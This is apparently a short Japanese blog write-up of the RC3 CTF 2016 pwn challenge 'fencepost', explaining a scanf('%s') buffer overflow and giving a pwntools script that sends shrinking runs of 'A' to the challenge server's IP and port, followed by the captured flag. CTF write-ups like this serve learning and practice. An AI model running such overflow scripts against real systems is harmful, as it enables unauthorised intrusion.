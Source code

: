 ```yaml
---
layout: post
alias: "/blog/2016/11/21/rc3-ctf-2016-fencepost/"
date: "2016-11-21T17:46:51+09:00"
title: "RC3 CTF 2016: fencepost"
tags: [ "ctf", "writeup", "rc3-ctf", "pwn" ]
---
```


`scanf("%s", s);`のbofで特定の位置を$0$にするとflagが出てくる。なんだか配布されたのと鯖のとでバイナリが違うっぽいからとりあえず試してみたらflagが降ってきた。まさかこれでいいとは思わなかった。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='52.71.70.98')
parser.add_argument('port', nargs='?', default=2091, type=int)
args = parser.parse_args()

context.log_level = 'debug'
with remote(args.host, args.port) as p:
    for i in range(48, 0, -1):
        p.recvuntil('Password: ')
        p.sendline('A' * i)
```

flag: `RC3-2016-STACKPWN`
